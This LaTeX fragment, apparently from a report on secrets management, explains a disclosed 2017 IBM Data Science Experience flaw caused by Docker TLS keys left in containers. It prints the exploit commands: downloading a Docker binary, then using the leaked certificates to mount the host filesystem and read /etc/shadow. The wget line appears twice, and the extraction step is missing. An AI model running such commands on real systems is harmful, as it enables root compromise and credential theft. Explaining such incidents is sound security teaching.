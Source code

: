 \documentclass[a4paper,12pt]{article}
\begin{document}
\bigbreak\textbf{Practical Example}\bigbreak 

One example of how a bad management of secrets could be fatal for an agency
comes from IBM. In 2017 a privilege escalation vulnerability was found inside
IBM Data Science Experience, a data analytics
product\cite{ibm_data_science_experience}. Such vulnerability was due to a wrong
configuration of the Docker containers that were running the service. IBM's
engineers left inside the containers Docker TLS keys, leaving root access across
the whole computer cluster and read/write access many terabytes of sensible
customer data. \par As stated by the report of the
vulnerability\cite{ibm_data_sciene_report}, an exploit of such threat was also
quite easy, needing only an access to to Internet and a web browser:
\begin{itemize}
  \item The attacker should just enter the service's web environment, accessing
  to its command line
  \item He should download and extract the Docker binary of the service, using
  the following commands: 
  \begin{lstlisting}[language=bash,breaklines]
    system("wget https://test.docker.com/builds/Linux/x86_64/docker-1.13.1-rc1.tgz")
    system("wget https://test.docker.com/builds/Linux/x86_64/docker-1.13.1-rc1.tgz")
  \end{lstlisting}
  \item Use the downloaded Docker binary with the existing certificates to
  achieve root access to the host mounted volume:
  \begin{lstlisting}[language=bash,breaklines]
    system("DOCKER_API_VERSION=1.22 ./docker/docker -H 172.17.0.1 \
              --tlscacert /certs/ca.pem --tlscert /certs/cert.pem \
              --tlskey /certs/key.pem \
              run -v /:/host debian cat /host/etc/shadow")
  \end{lstlisting}
\end{itemize} 

\subsubsection{ARP Spoofing}
\end{document}
